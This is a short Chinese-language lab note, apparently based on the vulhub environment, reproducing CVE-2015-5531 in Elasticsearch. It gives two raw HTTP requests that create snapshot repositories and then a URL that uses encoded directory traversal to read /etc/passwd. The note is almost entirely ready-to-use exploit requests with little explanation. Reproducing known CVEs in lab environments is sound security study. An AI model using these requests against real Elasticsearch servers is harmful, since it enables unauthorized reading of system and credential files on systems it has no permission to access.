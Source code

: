 **参考**：
**[CVE-2015-5531](https://www.freebuf.com/vuls/99942.html)**

## **[漏洞复现](https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/)**

## **1. 新建一个仓库**

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

## **[2. 创建一个快照]**

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

## **[目录穿越读取任意文件]**

**访问：**
```
http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

```
